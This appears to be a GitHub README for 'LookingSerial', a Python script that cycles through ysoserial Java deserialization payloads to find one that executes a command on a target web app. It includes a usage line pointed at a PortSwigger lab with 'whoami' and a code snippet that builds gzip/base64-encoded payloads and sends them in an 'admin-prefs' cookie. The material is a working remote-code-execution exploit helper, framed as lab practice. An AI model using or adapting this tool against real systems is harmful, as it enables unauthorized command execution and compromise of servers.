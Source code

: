 # LookingSerial

A tool for fuzzing the right payload for the ysoserial tool

## Description

While using the tool: https://github.com/frohoff/ysoserial I faced the problem of trying to figure out what is the right payload to use.

In order to get past this issue I created a script that is able to try all of the possible payloads and run the required `command` on each one of them.

This way I was able to find the working payload much more easily in an automated way.

## Usage

In order to use this script, you will have to enter:

`-u` : The url we are going to send our requests to

`-p` : The file containing the list of payloads

`-c` : The command we want to execute

```
git clone https://github.com/nirzaaa/LookingSerial.git
cd LookingSerial
python3 looking_serial.py -u "https://<YOUR-LAB>.web-security-academy.net/my-account" -p "payloads.txt" -c "whoami"
```

p.s.
In our case we will send the serialized through the cookie as can be seen at the script and can be adjusted to the specific case.

### Example of adjusting the script

In another scenario I had to make 2 adjustments for the script to work:

1. The serialized cookie wasn't at the session cookie but at the `admin-prefs` cookie, so I had to adjust accordingly the cookies I sent in my GET request.

2. Instead of base64 -> urlencode the cookie, I had to gzip -> base64 -> urlencode the cookie.

You can find the changes I made in the snippet below:

```python
def create_cookie(payload, command):
    os.system(f"PATH=/usr/lib/jvm/java-11-openjdk-amd64/bin:$PATH java -jar ~/Downloads/ysoserial-all.jar {payload} '{command}' | gzip > cookie.gz")
    os.system("cat cookie.gz | base64 > cookie_base64.txt")
    with open('cookie_base64.txt') as f:
        lines = f.read()
    cookie = lines.strip()
    return urllib.parse.quote(cookie)

def send_cookie(url, cookie):
    pattern = r"https://([^/]+)"
    match = re.search(pattern, url)
    domain = match.group(1)
    session_cookie = "<SESSION COOKIE>"
    headers = {
        "Host": "{}".format(domain),
        "Cookie": "admin-prefs={}; session={}".format(cookie, session_cookie),
    }

    response = requests.get(url, headers=headers)

    return response
```

## Suggestions
Have any suggestions? Something is missing? (😬) You can leave us an issue and we will look into it 😃
